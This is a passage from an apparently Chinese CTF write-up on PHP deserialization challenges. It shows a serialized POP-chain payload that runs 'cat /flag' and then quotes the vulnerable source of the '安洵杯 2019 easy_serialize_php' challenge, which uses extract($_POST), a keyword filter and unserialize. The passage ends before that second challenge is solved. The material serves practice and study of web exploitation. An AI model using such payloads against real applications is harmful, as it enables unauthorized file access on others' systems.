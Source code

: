 传参发现根目录下存在flag文件

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737426017065-6e2303e8-0123-4a4e-a832-7eec26ef3adc.png)

接着修改命令为 cat /flag 得到pop链

```php
O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";N;s:4:"Flag";s:9:"cat /flag";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```

传参后得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737426120304-d1c93523-48a3-4549-be7d-8eae2daf8ef1.png)

<h3 id="qmgdk">[安洵杯 2019]easy_serialize_php</h3>
打开靶机后发现一长串代码

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```
